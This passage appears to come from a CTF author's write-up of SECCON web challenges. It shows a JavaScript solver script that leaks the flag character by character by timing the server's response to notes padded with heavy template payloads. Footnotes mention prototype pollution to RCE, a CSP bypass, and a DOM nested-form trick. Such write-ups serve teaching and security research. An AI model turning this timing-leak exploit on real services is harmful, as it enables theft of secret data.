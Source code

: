```javascript title="index.js"

const measureTime = async (cookie) => {
  const start = performance.now();
  await fetch(`${SECCON_BASE_URL}/api/notes`, {
    method: "GET",
    headers: {
      Cookie: cookie,
    },
  });
  return performance.now() - start;
};

const leak = async (flagIndex, cookie) => {
  let minTime = 1e10;
  let minChar;
  for (const char of CHARS) {
    const note = `${flagIndex}-${char}-${"{{x}}".repeat(HEAVY_LEVEL)}`;
    await createNote(note, cookie);
    const time = await measureTime(cookie);
    await deleteNote(0, cookie);
    if (time < minTime) {
      minTime = time;
      minChar = char;
    }
  }
  if (!minChar) fail(`Failed at ${flagIndex}`);

  return minChar;
};

const exploit = async () => {
  const name = crypto.randomBytes(12).toString("base64");
  const password = crypto.randomBytes(12).toString("base64");

  const res = await fetch(`${SECCON_BASE_URL}/signup`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      name,
      password,
      emoji: "x",
    }),
    redirect: "manual",
  });
  const cookie = res.headers.get("Set-Cookie").split(";")[0];

  let prefix = "SECCON{";
  while (!prefix.endsWith("}")) {
    prefix += await leak(prefix.length, cookie);
    console.log(prefix);
    await sleep(500);
  }

  console.log(`Flag: ${prefix}`);
  process.exit(0);
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell